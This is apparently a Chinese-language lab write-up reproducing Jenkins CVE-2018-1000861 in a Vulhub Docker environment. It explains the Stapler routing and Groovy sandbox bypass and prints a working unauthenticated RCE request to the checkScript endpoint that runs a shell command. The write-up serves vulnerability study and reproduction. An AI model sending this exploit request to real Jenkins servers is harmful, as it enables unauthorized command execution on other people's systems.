# Jenkins 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

Vulhub执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。

![image-20220224163429468](images/202202241634597.png)

## 漏洞复现

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

![image-20220224163651128](images/202202241636205.png)

`/tmp/success`已成功创建：

![image-20220224163720283](images/202202241637353.png)
